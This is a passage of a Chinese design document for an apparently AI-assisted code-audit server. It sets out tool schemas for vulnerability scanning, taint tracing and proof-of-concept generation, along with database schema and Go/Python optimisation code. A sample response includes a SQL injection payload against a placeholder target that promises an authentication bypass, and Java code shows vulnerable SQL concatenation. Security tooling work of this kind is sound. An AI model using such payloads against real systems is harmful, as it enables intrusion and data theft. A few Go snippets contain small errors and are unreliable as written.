#### 4.2.2 search_method

```json
{
  "name": "search_method",
  "description": "搜索指定的方法定义，返回方法的详细信息",
  "inputSchema": {
    "type": "object",
    "properties": {
      "methodName": {
        "type": "string",
        "description": "要搜索的方法名"
      },
      "className": {
        "type": "string",
        "description": "限定在特定类中搜索"
      },
      "includeCallSites": {
        "type": "boolean",
        "description": "是否包含调用位置",
        "default": false
      },
      "includeCode": {
        "type": "boolean",
        "description": "是否包含完整的方法代码",
        "default": true
      }
    },
    "required": ["methodName"]
  }
}
```

**响应格式:**
```json
{
  "methods": [
    {
      "methodID": "com.example.UserService.getUser",
      "methodName": "getUser",
      "className": "UserService",
      "filePath": "/src/main/java/com/example/service/UserService.java",
      "startLine": 45,
      "endLine": 60,
      "modifiers": ["public"],
      "returnType": "User",
      "parameters": [
        {"name": "userId", "type": "String", "annotations": []}
      ],
      "annotations": ["@Transactional"],
      "signature": "public User getUser(String userId)",
      "code": "public User getUser(String userId) { ... }",
      "calledBy": ["UserController.getUserById"],
      "calls": ["UserRepository.findById"]
    }
  ]
}
```

#### 4.2.3 analyze_call_chain

```json
{
  "name": "analyze_call_chain",
  "description": "分析从起点方法到终点方法的调用链路径",
  "inputSchema": {
    "type": "object",
    "properties": {
      "fromMethod": {
        "type": "string",
        "description": "起点方法ID或名称"
      },
      "toMethod": {
        "type": "string",
        "description": "终点方法ID或名称"
      },
      "maxDepth": {
        "type": "integer",
        "description": "最大搜索深度",
        "default": 10
      },
      "includeCode": {
        "type": "boolean",
        "description": "是否包含每个节点的代码",
        "default": false
      }
    },
    "required": ["toMethod"]
  }
}
```

**响应格式:**
```json
{
  "chains": [
    {
      "chainID": "chain_001",
      "depth": 3,
      "nodes": [
        {
          "methodID": "com.example.UserController.getUser",
          "methodName": "getUser",
          "filePath": "/src/controller/UserController.java",
          "line": 25
        },
        {
          "methodID": "com.example.UserService.findUser",
          "methodName": "findUser",
          "filePath": "/src/service/UserService.java",
          "line": 40
        },
        {
          "methodID": "com.example.UserRepository.query",
          "methodName": "query",
          "filePath": "/src/repository/UserRepository.java",
          "line": 15
        }
      ]
    }
  ]
}
```

#### 4.2.4 scan_vulnerabilities

```json
{
  "name": "scan_vulnerabilities",
  "description": "执行代码漏洞扫描，返回发现的安全问题",
  "inputSchema": {
    "type": "object",
    "properties": {
      "targetPath": {
        "type": "string",
        "description": "要扫描的目标路径"
      },
      "ruleSets": {
        "type": "array",
        "items": {"type": "string"},
        "description": "使用的规则集，如['OWASP_TOP10', 'CWE_TOP25']",
        "default": ["OWASP_TOP10"]
      },
      "languages": {
        "type": "array",
        "items": {"type": "string"},
        "description": "要扫描的编程语言"
      },
      "excludePatterns": {
        "type": "array",
        "items": {"type": "string"},
        "description": "排除的文件或目录模式"
      },
      "severity": {
        "type": "string",
        "enum": ["critical", "high", "medium", "low", "all"],
        "description": "最低严重程度",
        "default": "all"
      }
    },
    "required": ["targetPath"]
  }
}
```

**响应格式:**
```json
{
  "reportID": "report_20250119_001",
  "scanTime": "2025-01-19T10:30:00Z",
  "statistics": {
    "totalFiles": 150,
    "totalVulns": 12,
    "vulnsBySeverity": {
      "critical": 2,
      "high": 5,
      "medium": 3,
      "low": 2
    }
  },
  "vulnerabilities": [
    {
      "vulnID": "vuln_001",
      "type": "SQL_INJECTION",
      "severity": "high",
      "title": "SQL注入漏洞在UserRepository.query方法中",
      "description": "用户输入未经验证直接拼接到SQL查询中",
      "location": {
        "filePath": "/src/repository/UserRepository.java",
        "startLine": 45,
        "endLine": 48
      },
      "taintPath": {
        "source": {
          "type": "HTTP_REQUEST",
          "location": {
            "filePath": "/src/controller/UserController.java",
            "line": 25
          },
          "description": "HTTP请求参数userId"
        },
        "sink": {
          "type": "SQL_EXECUTION",
          "location": {
            "filePath": "/src/repository/UserRepository.java",
            "line": 47
          },
          "function": "jdbcTemplate.query"
        },
        "steps": [...]
      },
      "confidence": 0.95,
      "cwe": "CWE-89",
      "owasp": "A03:2021-Injection",
      "fixSuggestion": "使用参数化查询而不是字符串拼接"
    }
  ]
}
```

#### 4.2.5 generate_poc

```json
{
  "name": "generate_poc",
  "description": "为指定的漏洞生成概念验证代码",
  "inputSchema": {
    "type": "object",
    "properties": {
      "vulnID": {
        "type": "string",
        "description": "漏洞ID"
      },
      "language": {
        "type": "string",
        "enum": ["python", "javascript", "bash", "java"],
        "description": "POC代码语言",
        "default": "python"
      },
      "includeComments": {
        "type": "boolean",
        "description": "是否包含详细注释",
        "default": true
      }
    },
    "required": ["vulnID"]
  }
}
```

**响应格式:**
```json
{
  "pocID": "poc_001",
  "vulnID": "vuln_001",
  "language": "python",
  "code": "import requests\n\n# POC for SQL Injection in UserController\ntarget_url = 'http://target.com/api/user'\npayload = \"1' OR '1'='1\"\n...",
  "description": "此POC演示了SQL注入漏洞的利用",
  "usage": "python poc_001.py --target http://target.com",
  "requirements": ["requests==2.28.0"],
  "expectedResult": "成功绕过身份验证并获取所有用户数据",
  "verified": true
}
```

#### 4.2.6 trace_sink

```json
{
  "name": "trace_sink",
  "description": "从危险函数(Sink)向上追踪到所有可能的污点源",
  "inputSchema": {
    "type": "object",
    "properties": {
      "sinkFunction": {
        "type": "string",
        "description": "危险函数名称或ID"
      },
      "sinkType": {
        "type": "string",
        "enum": ["sql", "command", "file", "code_eval", "xss", "ssrf"],
        "description": "Sink类型"
      },
      "maxDepth": {
        "type": "integer",
        "description": "最大追踪深度",
        "default": 15
      }
    },
    "required": ["sinkFunction"]
  }
}
```

#### 4.2.7 extract_chain_code

```json
{
  "name": "extract_chain_code",
  "description": "提取漏洞链路上所有函数的完整源代码",
  "inputSchema": {
    "type": "object",
    "properties": {
      "vulnID": {
        "type": "string",
        "description": "漏洞ID"
      },
      "includeContext": {
        "type": "boolean",
        "description": "是否包含类定义等上下文信息",
        "default": true
      },
      "removeComments": {
        "type": "boolean",
        "description": "是否移除注释以减少长度",
        "default": false
      }
    },
    "required": ["vulnID"]
  }
}
```

**响应格式:**
```json
{
  "vulnID": "vuln_001",
  "chainCode": [
    {
      "role": "source",
      "function": "UserController.getUser",
      "filePath": "/src/controller/UserController.java",
      "code": "@GetMapping(\"/user\")\npublic User getUser(@RequestParam String userId) {\n    return userService.findUser(userId);\n}",
      "highlight": [3],
      "description": "HTTP请求参数作为污点源"
    },
    {
      "role": "propagator",
      "function": "UserService.findUser",
      "filePath": "/src/service/UserService.java",
      "code": "public User findUser(String userId) {\n    return userRepository.query(userId);\n}",
      "highlight": [2],
      "description": "参数传递给Repository层"
    },
    {
      "role": "sink",
      "function": "UserRepository.query",
      "filePath": "/src/repository/UserRepository.java",
      "code": "public User query(String userId) {\n    String sql = \"SELECT * FROM users WHERE id = '\" + userId + \"'\";\n    return jdbcTemplate.query(sql, userRowMapper);\n}",
      "highlight": [2],
      "description": "危险的SQL拼接导致注入"
    }
  ],
  "summary": "污点从HTTP请求参数传递到SQL执行，中间未经任何验证或过滤"
}
```

#### 4.2.8 semantic_search

```json
{
  "name": "semantic_search",
  "description": "使用自然语言或代码模式进行语义搜索",
  "inputSchema": {
    "type": "object",
    "properties": {
      "query": {
        "type": "string",
        "description": "搜索查询（自然语言或代码）"
      },
      "searchType": {
        "type": "string",
        "enum": ["text", "code", "vulnerability"],
        "description": "搜索类型",
        "default": "text"
      },
      "topK": {
        "type": "integer",
        "description": "返回结果数量",
        "default": 10
      }
    },
    "required": ["query"]
  }
}
```

#### 4.2.9 query_cve

```json
{
  "name": "query_cve",
  "description": "查询历史CVE漏洞信息",
  "inputSchema": {
    "type": "object",
    "properties": {
      "keyword": {
        "type": "string",
        "description": "搜索关键词（组件名、CVE编号等）"
      },
      "vulnType": {
        "type": "string",
        "description": "漏洞类型"
      },
      "severity": {
        "type": "string",
        "enum": ["critical", "high", "medium", "low"],
        "description": "最低严重程度"
      }
    },
    "required": ["keyword"]
  }
}
```

---

## 5. 语言和框架适配

### 5.1 语言适配架构

```go
// 语言适配器接口
type LanguageAdapter interface {
    GetLanguage() Language
    ParseAST(code string) (*AST, error)
    GetSourcePatterns() []SourcePattern
    GetSinkPatterns() []SinkPattern
    GetFrameworks() []Framework
    IdentifyVulnerability(node *ASTNode) (*VulnerabilityCandidate, error)
}

// 框架适配器接口
type FrameworkAdapter interface {
    GetFrameworkName() string
    GetLanguage() Language
    DetectFramework(index *CodeIndex) bool
    GetFrameworkSpecificRules() []*DetectionRule
    AnalyzeConfiguration(configFile string) ([]*ConfigIssue, error)
}
```

### 5.2 支持的语言和框架

| 语言 | 框架支持 | 重点检测 |
|------|---------|---------|
| Java | Spring, Spring Boot, Struts2 | SQL注入、反射、反序列化、OGNL注入 |
| Python | Django, Flask | 模板注入、pickle反序列化、代码执行 |
| JavaScript/Node.js | Express, React | XSS、原型链污染、路径遍历 |
| PHP | Laravel, Symfony | 文件包含、变量覆盖、代码执行 |
| Go | Gin, Echo | SQL注入、race condition、goroutine泄漏 |

### 5.3 ORM框架适配

| ORM框架 | 语言 | 检测重点 |
|---------|------|---------|
| MyBatis | Java | 动态SQL注入、#{} vs ${} |
| Hibernate/JPA | Java | HQL/JPQL注入 |
| SQLAlchemy | Python | 原生SQL拼接 |
| Sequelize | Node.js | 不安全的查询构建 |
| GORM | Go | SQL注入风险 |

### 5.4 模板引擎适配

| 模板引擎 | 语言 | 检测重点 |
|----------|------|---------|
| Thymeleaf | Java | SSTI、XSS |
| JSP/JSTL | Java | 表达式注入、XSS |
| FreeMarker | Java | 模板注入 |
| Jinja2 | Python | SSTI |
| EJS | Node.js | 代码注入 |
| Blade | PHP | XSS、代码注入 |

---

## 6. 数据持久化设计

### 6.1 数据库选型

**主数据库**: SQLite / PostgreSQL
- 存储代码索引、审计报告、规则配置

**向量数据库**: Qdrant / Weaviate
- 存储代码语义向量

**缓存**: Redis (可选)
- 缓存频繁访问的索引数据

### 6.2 数据库Schema

#### 6.2.1 项目表 (projects)

```sql
CREATE TABLE projects (
    project_id TEXT PRIMARY KEY,
    name TEXT NOT NULL,
    path TEXT NOT NULL,
    language TEXT,
    framework TEXT,
    created_at TIMESTAMP,
    updated_at TIMESTAMP,
    last_scan_at TIMESTAMP
);
```

#### 6.2.2 代码索引表 (code_index)

```sql
CREATE TABLE code_index (
    index_id TEXT PRIMARY KEY,
    project_id TEXT,
    entity_type TEXT, -- 'class', 'method', 'field'
    entity_name TEXT,
    full_name TEXT,
    file_path TEXT,
    start_line INTEGER,
    end_line INTEGER,
    signature TEXT,
    ast_data TEXT, -- JSON格式的AST数据
    created_at TIMESTAMP,
    FOREIGN KEY (project_id) REFERENCES projects(project_id)
);

CREATE INDEX idx_code_index_name ON code_index(entity_name);
CREATE INDEX idx_code_index_type ON code_index(entity_type);
CREATE INDEX idx_code_index_project ON code_index(project_id);
```

#### 6.2.3 调用关系表 (call_relations)

```sql
CREATE TABLE call_relations (
    relation_id TEXT PRIMARY KEY,
    project_id TEXT,
    caller_method_id TEXT,
    callee_method_id TEXT,
    call_type TEXT,
    file_path TEXT,
    line_number INTEGER,
    FOREIGN KEY (project_id) REFERENCES projects(project_id)
);

CREATE INDEX idx_call_relations_caller ON call_relations(caller_method_id);
CREATE INDEX idx_call_relations_callee ON call_relations(callee_method_id);
```

#### 6.2.4 漏洞表 (vulnerabilities)

```sql
CREATE TABLE vulnerabilities (
    vuln_id TEXT PRIMARY KEY,
    project_id TEXT,
    scan_id TEXT,
    vuln_type TEXT,
    severity TEXT,
    title TEXT,
    description TEXT,
    file_path TEXT,
    start_line INTEGER,
    end_line INTEGER,
    confidence REAL,
    cwe TEXT,
    owasp TEXT,
    taint_path TEXT, -- JSON格式
    call_chain TEXT, -- JSON格式
    fix_suggestion TEXT,
    poc_code TEXT,
    status TEXT, -- 'open', 'fixed', 'false_positive'
    created_at TIMESTAMP,
    FOREIGN KEY (project_id) REFERENCES projects(project_id)
);

CREATE INDEX idx_vulns_project ON vulnerabilities(project_id);
CREATE INDEX idx_vulns_severity ON vulnerabilities(severity);
CREATE INDEX idx_vulns_type ON vulnerabilities(vuln_type);
```

#### 6.2.5 规则表 (detection_rules)

```sql
CREATE TABLE detection_rules (
    rule_id TEXT PRIMARY KEY,
    name TEXT NOT NULL,
    description TEXT,
    vuln_type TEXT,
    severity TEXT,
    language TEXT,
    pattern_type TEXT,
    pattern_data TEXT, -- JSON格式
    enabled BOOLEAN DEFAULT TRUE,
    created_at TIMESTAMP,
    updated_at TIMESTAMP
);
```

#### 6.2.6 审计报告表 (audit_reports)

```sql
CREATE TABLE audit_reports (
    report_id TEXT PRIMARY KEY,
    project_id TEXT,
    scan_time TIMESTAMP,
    total_vulns INTEGER,
    config TEXT, -- JSON格式
    statistics TEXT, -- JSON格式
    output_path TEXT,
    FOREIGN KEY (project_id) REFERENCES projects(project_id)
);
```

### 6.3 文件系统存储

```
.code-audit/
├── projects/
│   └── {project_id}/
│       ├── index/           # 代码索引缓存
│       │   ├── ast_cache/
│       │   ├── call_graph.bin
│       │   └── metadata.json
│       ├── reports/         # 审计报告
│       │   ├── report_{timestamp}.json
│       │   ├── report_{timestamp}.html
│       │   └── report_{timestamp}.md
│       └── vectors/         # 语义向量
│           └── embeddings.index
├── rules/                   # 检测规则
│   ├── owasp_top10.json
│   ├── cwe_top25.json
│   └── custom/
├── cve_db/                  # CVE数据库
│   └── nvd_cache.db
└── config/
    ├── server_config.yaml
    └── language_configs/
```

---

## 7. 工作流程设计

### 7.1 代码审计工作流

```
1. 初始化
   ├── 加载配置
   ├── 初始化数据库
   └── 加载检测规则

2. 代码扫描
   ├── 识别编程语言
   ├── 解析AST
   ├── 建立索引
   └── 缓存结果

3. 漏洞检测
   ├── 应用检测规则
   ├── 执行污点分析
   ├── 构建调用链
   └── 识别漏洞候选

4. 多模型验证
   ├── 提取漏洞链路代码
   ├── 多模型交叉验证
   ├── 计算置信度
   └── 过滤误报

5. POC/EXP生成
   ├── 分析漏洞特征
   ├── 选择模板
   ├── 生成代码
   └── 验证可用性

6. 报告生成
   ├── 汇总漏洞信息
   ├── 生成统计数据
   ├── 导出多种格式
   └── 持久化存储
```

### 7.2 时序图：漏洞检测流程

```
Client          MCP Server      AuditEngine     TaintAnalyzer   ValidationEngine
  |                  |               |                |                |
  |--scan_vulnerabilities----------->|                |                |
  |                  |               |                |                |
  |                  |               |--BuildIndex--->|                |
  |                  |               |                |                |
  |                  |               |--ApplyRules--->|                |
  |                  |               |                |                |
  |                  |               |--TaintAnalysis----------------->|
  |                  |               |                |<-TaintPaths----|
  |                  |               |                |                |
  |                  |               |--BuildCallChain|                |
  |                  |               |<-CallChain-----|                |
  |                  |               |                |                |
  |                  |               |--ValidateVulnerabilities------->|
  |                  |               |                |                |
  |                  |               |                |  [Multi-Model  |
  |                  |               |                |   Verification]|
  |                  |               |                |<-ValidationResults
  |                  |               |                |                |
  |                  |               |--GeneratePOC-->|                |
  |                  |               |<-POCCode-------|                |
  |                  |               |                |                |
  |                  |<-Report-------|                |                |
  |<-JSON Response---|               |                |                |
```

### 7.3 污点分析流程

```
1. 识别污点源 (Source)
   ├── HTTP请求参数
   ├── 文件输入
   ├── 数据库查询结果
   └── 环境变量

2. 识别污点汇 (Sink)
   ├── SQL执行函数
   ├── 命令执行函数
   ├── 文件操作函数
   ├── 代码执行函数
   └── HTML输出函数

3. 函数级污点追踪
   ├── 从Source开始标记污点
   ├── 追踪函数间参数传递
   ├── 追踪函数返回值传播
   ├── 处理复杂场景（反射、异步、多线程）
   └── 记录传播路径

4. 识别净化函数 (Sanitizer)
   ├── 输入验证函数
   ├── 转义函数
   ├── 编码函数
   └── 过滤函数

5. 验证污点路径
   ├── 检查路径可达性
   ├── 评估净化有效性
   ├── 计算置信度
   └── 生成漏洞报告
```

---

## 8. 技术栈选型

### 8.1 开发语言和框架

**混合架构**: Go + Python

**Go部分** (性能关键组件):
- 高性能、并发支持
- MCP服务器主框架
- AST解析和索引管理
- 污点分析和调用链分析

**Python部分** (AI/ML组件):
- 丰富的AI/ML生态
- 语义检索和向量处理
- AI模型集成
- POC/EXP生成

**通信机制**: 
- gRPC (Go ↔ Python)
- Protocol Buffers

**MCP协议实现**: 
- 基于JSON-RPC 2.0
- 标准输入/输出通信

### 8.2 Go技术栈

| 功能 | 库/工具 | 版本 | 用途 |
|------|---------|------|------|
| AST解析 | go-tree-sitter | latest | 多语言AST解析 |
| gRPC | google.golang.org/grpc | v1.60+ | 与Python通信 |
| Protocol Buffers | google.golang.org/protobuf | v1.32+ | 接口定义 |
| 数据库ORM | gorm.io/gorm | v1.25+ | 数据库操作 |
| SQLite驱动 | gorm.io/driver/sqlite | latest | SQLite支持 |
| PostgreSQL驱动 | gorm.io/driver/postgres | latest | PostgreSQL支持 |
| Redis客户端 | github.com/redis/go-redis/v9 | v9.4+ | 缓存管理 |
| JSON处理 | encoding/json | 标准库 | JSON序列化 |
| 配置管理 | github.com/spf13/viper | v1.18+ | 配置文件 |
| 日志 | go.uber.org/zap | v1.26+ | 结构化日志 |
| CLI框架 | github.com/spf13/cobra | v1.8+ | 命令行工具 |
| 错误处理 | github.com/pkg/errors | v0.9+ | 错误包装 |
| 测试 | github.com/stretchr/testify | v1.8+ | 单元测试 |
| 并发控制 | golang.org/x/sync | latest | errgroup等 |

### 8.3 Python技术栈

| 功能 | 库/工具 | 版本 | 用途 |
|------|---------|------|------|
| gRPC服务端 | grpcio | 1.60+ | 提供gRPC服务 |
| Protocol Buffers | grpcio-tools | 1.60+ | protobuf支持 |
| 语义检索 | txtai | 7.0+ | 向量检索和语义搜索 |
| AI模型调用 | anthropic | latest | Claude API |
| AI模型调用 | openai | 1.10+ | GPT-4 API |
| AI模型调用 | google-generativeai | latest | Gemini API |
| 本地模型 | ollama | latest | 本地LLM |
| 向量数据库 | qdrant-client | 1.7+ | Qdrant客户端 |
| 机器学习 | scikit-learn | 1.4+ | ML算法 |
| 自然语言处理 | transformers | 4.36+ | HuggingFace模型 |
| 张量计算 | torch | 2.1+ | PyTorch |
| HTTP客户端 | requests | 2.31+ | API调用 |
| 异步IO | asyncio | 标准库 | 异步处理 |
| 数据处理 | pandas | 2.1+ | 数据分析 |
| JSON处理 | pydantic | 2.5+ | 数据验证 |
| 日志 | loguru | 0.7+ | 日志记录 |
| 测试 | pytest | 7.4+ | 单元测试 |
| CVE查询 | nvdlib | 0.7+ | NVD数据库 |

### 8.4 其他工具和服务

| 工具 | 用途 |
|------|------|
| fernflower | Java反编译 |
| jadx | Android APK反编译 |
| uncompyle6 | Python字节码反编译 |
| de4dot | .NET反混淆 |
| Qdrant | 向量数据库服务 |
| Redis | 缓存服务（可选） |

### 8.5 AI模型集成

**多模型验证支持**:
- **Claude 3.5 Sonnet** (Anthropic API) - 主力模型
- **GPT-4 Turbo** (OpenAI API) - 交叉验证
- **Gemini Pro** (Google API) - 交叉验证
- **本地模型** (Ollama) - 离线场景
  - CodeLlama
  - DeepSeek Coder
  - Qwen Coder

**语义理解模型**:
- **CodeBERT** - 代码语义理解
- **GraphCodeBERT** - 代码结构理解
- **UniXcoder** - 跨语言代码理解
- **StarCoder** - 代码生成

**嵌入模型**:
- **all-MiniLM-L6-v2** - 轻量级通用嵌入
- **code-search-net** - 代码搜索专用

---

## 9. 性能优化策略

### 9.1 索引优化

- **增量更新**: 仅重新解析修改的文件
- **并行解析**: 使用goroutine并行处理多个文件
- **智能缓存**: 基于文件哈希判断是否需要重新解析
- **懒加载**: 按需加载AST节点详细信息

### 9.2 污点分析优化

- **函数级追踪**: 避免变量级追踪的性能开销
- **路径剪枝**: 提前终止不可能到达Sink的路径
- **循环检测**: 避免无限递归
- **并行分析**: 多个污点路径并行追踪

### 9.3 内存优化（详细实现）

#### 9.3.1 对象池（Go实现）

```go
// AST节点对象池
type ASTNodePool struct {
    pool *sync.Pool
    stats struct {
        allocations int64
        reuses      int64
    }
}

func NewASTNodePool() *ASTNodePool {
    return &ASTNodePool{
        pool: &sync.Pool{
            New: func() interface{} {
                atomic.AddInt64(&p.stats.allocations, 1)
                return &ASTNode{
                    Attributes: make(map[string]interface{}, 8),
                    Children:   make([]*ASTNode, 0, 4),
                }
            },
        },
    }
}

func (p *ASTNodePool) Get() *ASTNode {
    node := p.pool.Get().(*ASTNode)
    atomic.AddInt64(&p.stats.reuses, 1)
    return node
}

func (p *ASTNodePool) Put(node *ASTNode) {
    // 清理节点，准备重用
    node.Parent = nil
    node.Children = node.Children[:0]
    for k := range node.Attributes {
        delete(node.Attributes, k)
    }
    p.pool.Put(node)
}

func (p *ASTNodePool) Stats() (allocations, reuses int64) {
    return atomic.LoadInt64(&p.stats.allocations), 
           atomic.LoadInt64(&p.stats.reuses)
}

// 使用示例
var nodePool = NewASTNodePool()

func parseFile(path string) (*AST, error) {
    // 从对象池获取节点
    root := nodePool.Get()
    defer nodePool.Put(root)  // 用完归还
    
    // 解析逻辑...
    return ast, nil
}

// 性能对比:
// 无对象池: 100k节点解析 -> 2.5s, 内存: 800MB
// 有对象池: 100k节点解析 -> 1.8s, 内存: 300MB (减少62%)
```

#### 9.3.2 Goroutine池

```go
// Worker池，限制并发数量，避免goroutine泄漏
type WorkerPool struct {
    workers   int
    taskQueue chan Task
    wg        sync.WaitGroup
}

type Task func() error

func NewWorkerPool(workers int, queueSize int) *WorkerPool {
    pool := &WorkerPool{
        workers:   workers,
        taskQueue: make(chan Task, queueSize),
    }
    
    // 启动固定数量的worker
    for i := 0; i < workers; i++ {
        pool.wg.Add(1)
        go pool.worker()
    }
    
    return pool
}

func (p *WorkerPool) worker() {
    defer p.wg.Done()
    
    for task := range p.taskQueue {
        if err := task(); err != nil {
            log.Error("Task failed", zap.Error(err))
        }
    }
}

func (p *WorkerPool) Submit(task Task) {
    p.taskQueue <- task
}

func (p *WorkerPool) Stop() {
    close(p.taskQueue)
    p.wg.Wait()
}

// 使用示例：并行解析文件
func parseProjectParallel(files []string) error {
    pool := NewWorkerPool(
        runtime.NumCPU(),  // 根据CPU核心数
        len(files)*2,      // 队列大小
    )
    defer pool.Stop()
    
    for _, file := range files {
        f := file  // 避免闭包问题
        pool.Submit(func() error {
            return parseFile(f)
        })
    }
    
    return nil
}

// 性能对比:
// 顺序解析1000个文件: 45s
// 无限制goroutine并行: 8s, 但goroutine数量: 1000+
// Worker池并行(16 workers): 9s, goroutine数量: 16 (可控)
```

#### 9.3.3 内存映射文件

```go
// 对于大文件，使用mmap减少内存占用
import "golang.org/x/exp/mmap"

type MmapFileReader struct {
    reader *mmap.ReaderAt
    size   int64
}

func OpenFileMmap(path string) (*MmapFileReader, error) {
    reader, err := mmap.Open(path)
    if err != nil {
        return nil, err
    }
    
    stat, _ := os.Stat(path)
    
    return &MmapFileReader{
        reader: reader,
        size:   stat.Size(),
    }, nil
}

func (m *MmapFileReader) ReadAt(offset int64, length int) ([]byte, error) {
    buf := make([]byte, length)
    n, err := m.reader.ReadAt(buf, offset)
    return buf[:n], err
}

// 内存对比:
// 传统读取100MB文件: 内存占用 ~100MB
// mmap读取100MB文件: 内存占用 ~10MB (按需加载)
```

#### 9.3.4 LRU缓存

```go
// LRU缓存，限制内存使用
type LRUCache struct {
    capacity int
    cache    map[string]*list.Element
    lruList  *list.List
    mu       sync.Mutex
}

type cacheEntry struct {
    key   string
    value interface{}
}

func NewLRUCache(capacity int) *LRUCache {
    return &LRUCache{
        capacity: capacity,
        cache:    make(map[string]*list.Element),
        lruList:  list.New(),
    }
}

func (c *LRUCache) Get(key string) (interface{}, bool) {
    c.mu.Lock()
    defer c.mu.Unlock()
    
    if elem, ok := c.cache[key]; ok {
        c.lruList.MoveToFront(elem)
        return elem.Value.(*cacheEntry).value, true
    }
    return nil, false
}

func (c *LRUCache) Put(key string, value interface{}) {
    c.mu.Lock()
    defer c.mu.Unlock()
    
    if elem, ok := c.cache[key]; ok {
        c.lruList.MoveToFront(elem)
        elem.Value.(*cacheEntry).value = value
        return
    }
    
    entry := &cacheEntry{key, value}
    elem := c.lruList.PushFront(entry)
    c.cache[key] = elem
    
    // 超过容量，删除最旧的
    if c.lruList.Len() > c.capacity {
        oldest := c.lruList.Back()
        if oldest != nil {
            c.lruList.Remove(oldest)
            delete(c.cache, oldest.Value.(*cacheEntry).key)
        }
    }
}

// 使用示例：缓存AST
var astCache = NewLRUCache(1000)  // 最多缓存1000个文件的AST

func getAST(filePath string) (*AST, error) {
    if cached, ok := astCache.Get(filePath); ok {
        return cached.(*AST), nil
    }
    
    ast, err := parseFile(filePath)
    if err != nil {
        return nil, err
    }
    
    astCache.Put(filePath, ast)
    return ast, nil
}
```

#### 9.3.5 压缩存储

```go
import "github.com/klauspost/compress/zstd"

// 压缩AST存储，节省磁盘和内存
func compressAndSaveAST(ast *AST, path string) error {
    // 序列化
    data, err := json.Marshal(ast)
    if err != nil {
        return err
    }
    
    // 压缩
    encoder, _ := zstd.NewWriter(nil)
    compressed := encoder.EncodeAll(data, nil)
    
    // 写入文件
    return os.WriteFile(path, compressed, 0644)
}

func loadAndDecompressAST(path string) (*AST, error) {
    // 读取
    compressed, err := os.ReadFile(path)
    if err != nil {
        return nil, err
    }
    
    // 解压
    decoder, _ := zstd.NewReader(nil)
    data, err := decoder.DecodeAll(compressed, nil)
    if err != nil {
        return nil, err
    }
    
    // 反序列化
    var ast AST
    err = json.Unmarshal(data, &ast)
    return &ast, err
}

// 压缩率:
// 原始AST JSON: 50MB
// Zstd压缩后: 8MB (压缩率 84%)
```

### 9.4 查询优化

- **索引设计**: 为常用查询字段建立索引
- **查询缓存**: 缓存常用查询结果
- **批量查询**: 减少数据库往返次数

### 9.5 性能监控

```go
// 性能指标收集
type PerformanceMetrics struct {
    ParseDuration      time.Duration
    IndexBuildDuration time.Duration
    TaintAnalysisDuration time.Duration
    MemoryUsage        uint64
    GoroutineCount     int
    CacheHitRate       float64
}

func CollectMetrics() *PerformanceMetrics {
    var m runtime.MemStats
    runtime.ReadMemStats(&m)
    
    return &PerformanceMetrics{
        MemoryUsage:    m.Alloc,
        GoroutineCount: runtime.NumGoroutine(),
    }
}
```

---

## 10. 错误处理与日志策略

### 10.1 错误分类体系

#### 10.1.1 错误类型枚举

```go
// Go端错误类型定义
type ErrorType int

const (
    // 解析错误 (1xx)
    ErrorTypeParseFailed       ErrorType = 100  // AST解析失败
    ErrorTypeUnsupportedLanguage ErrorType = 101  // 不支持的语言
    ErrorTypeSyntaxError       ErrorType = 102  // 语法错误
    
    // 索引错误 (2xx)
    ErrorTypeIndexBuildFailed  ErrorType = 200  // 索引构建失败
    ErrorTypeIndexNotFound     ErrorType = 201  // 索引不存在
    ErrorTypeIndexCorrupted    ErrorType = 202  // 索引损坏
    
    // 分析错误 (3xx)
    ErrorTypeTaintAnalysisFailed ErrorType = 300  // 污点分析失败
    ErrorTypeCallGraphFailed   ErrorType = 301  // 调用图构建失败
    ErrorTypeDeadlock          ErrorType = 302  // 分析死锁
    ErrorTypeTimeout           ErrorType = 303  // 分析超时
    
    // 数据库错误 (4xx)
    ErrorTypeDatabaseConnection ErrorType = 400  // 数据库连接失败
    ErrorTypeDatabaseQuery     ErrorType = 401  // 查询失败
    ErrorTypeDatabaseCorrupt   ErrorType = 402  // 数据损坏
    
    // 文件系统错误 (5xx)
    ErrorTypeFileNotFound      ErrorType = 500  // 文件不存在
    ErrorTypePermissionDenied  ErrorType = 501  // 权限不足
    ErrorTypeDiskFull          ErrorType = 502  // 磁盘满
    
    // 资源错误 (6xx)
    ErrorTypeOutOfMemory       ErrorType = 600  // 内存不足
    ErrorTypeTooManyFiles      ErrorType = 601  // 文件数过多
    ErrorTypeResourceExhausted ErrorType = 602  // 资源耗尽
    
    // gRPC通信错误 (7xx)
    ErrorTypeGRPCUnavailable   ErrorType = 700  // gRPC服务不可用
    ErrorTypeGRPCTimeout       ErrorType = 701  // gRPC调用超时
    ErrorTypeGRPCCanceled      ErrorType = 702  // 调用被取消
    
    // 业务逻辑错误 (8xx)
    ErrorTypeInvalidInput      ErrorType = 800  // 无效输入
    ErrorTypeVulnNotFound      ErrorType = 801  // 漏洞不存在
    ErrorTypeRuleInvalid       ErrorType = 802  // 规则无效
)

// 错误严重程度
type ErrorSeverity int

const (
    SeverityFatal    ErrorSeverity = iota  // 致命错误，服务终止
    SeverityCritical                       // 严重错误，功能不可用
    SeverityError                          // 错误，部分功能受影响
    SeverityWarning                        // 警告，不影响主流程
    SeverityInfo                           // 信息性错误
)

// 结构化错误
type CodeAuditError struct {
    Type      ErrorType
    Severity  ErrorSeverity
    Message   string
    Details   map[string]interface{}
    Timestamp time.Time
    StackTrace string
    Recoverable bool  // 是否可恢复
}
```

```python
# Python端错误类型定义
from enum import Enum
from dataclasses import dataclass
from typing import Dict, Any, Optional
import traceback
from datetime import datetime

class ErrorType(Enum):
    # AI模型错误 (9xx)
    MODEL_API_FAILED = 900      # AI模型API调用失败
    MODEL_RATE_LIMITED = 901    # API限流
    MODEL_INVALID_RESPONSE = 902  # 模型返回无效
    
    # 语义检索错误 (10xx)
    VECTOR_STORE_UNAVAILABLE = 1000  # 向量数据库不可用
    EMBEDDING_FAILED = 1001          # 向量化失败
    SEARCH_FAILED = 1002             # 检索失败
    
    # POC/EXP生成错误 (11xx)
    POC_GENERATION_FAILED = 1100    # POC生成失败
    EXP_GENERATION_FAILED = 1101    # EXP生成失败
    TEMPLATE_NOT_FOUND = 1102       # 模板不存在
    
    # MCP协议错误 (12xx)
    MCP_TOOL_NOT_FOUND = 1200      # 工具不存在
    MCP_INVALID_PARAMS = 1201      # 参数无效
    MCP_RESPONSE_FAILED = 1202     # 响应生成失败

@dataclass
class CodeAuditError:
    error_type: ErrorType
    severity: str  # "fatal", "critical", "error", "warning", "info"
    message: str
    details: Optional[Dict[str, Any]] = None
    timestamp: datetime = None
    stack_trace: str = None
    recoverable: bool = True
    
    def __post_init__(self):
